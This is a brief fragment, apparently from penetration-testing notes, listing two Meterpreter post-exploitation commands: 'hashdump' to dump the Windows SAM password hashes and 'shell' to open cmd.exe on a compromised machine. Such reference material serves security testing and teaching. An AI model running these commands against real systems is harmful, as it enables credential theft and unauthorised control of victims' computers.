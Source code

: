 ### dump SAM database

```bash
meterpreter > hashdump
```

### Change to `cmd.exe`

`meterpreter > shell`
